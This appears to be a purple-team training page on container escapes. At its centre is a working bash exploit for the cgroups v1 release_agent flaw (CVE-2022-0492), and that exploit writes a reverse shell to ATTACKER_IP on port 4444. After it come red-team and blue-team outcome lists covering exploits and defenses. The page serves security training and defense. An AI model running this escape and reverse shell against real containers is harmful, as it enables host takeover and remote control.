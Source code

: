 ## Container escape exploits

CVE-2022-0492 (cgroups v1 Release Agent Escape)

### Attack path

MITRE: [T1611](https://attack.mitre.org/techniques/T1611/) (Escape to Host)

Exploit Steps:

```bash
# 1. Check vulnerable cgroups config  
grep cgroup /proc/self/mountinfo | grep release_agent  

# 2. Trigger escape (requires CAP_SYS_ADMIN in container)  
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp  
echo 1 > /tmp/cgrp/notify_on_release  
host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)  
echo "$host_path/cmd" > /tmp/cgrp/release_agent  
echo '#!/bin/sh' > /cmd  
echo "bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /cmd  
chmod +x /cmd  
sh -c "echo \$\$ > /tmp/cgrp/cgroup.procs"  
```

Purple team actions

- [x] Red: Test escape in Docker/Kubernetes with CDK.
- [x] Blue: Enforce deny mount cgroup in AppArmor.

## Purple team outcomes

### Red team

* Linux: ROP chains bypassing NX+PIE+ASLR.
* Windows: Weaponized Office docs with CVE-2021-40444.
* AD: Golden/Silver ticket attack trees.
* Container: Proof-of-concept for Kubernetes pod → host escapes.
* macOS: Weaponized XNU exploits (e.g., privilege escalation to root).
* Firmware: Mapped UEFI vulnerabilities to ATT&CK for ICS.

### Blue team

* Linux: eBPF-based kernel exploit detection.
* Windows: Attack Surface Reduction rules.
* AD: BloodHound defensive mappings.
* Container: GKE/ECS hardening guides with gVisor.
* macOS: Gatekeeper + XProtect rules.
* Firmware: UEFI Secure Boot enforcement via Microsoft DBX.

### Final deliverable

* Workshop: Kernel exploit lab (Linux/Windows).
* ATT&CK Navigator: Customized Enterprise + ICS layers.
* Patch Analysis: Monthly diffing report template.
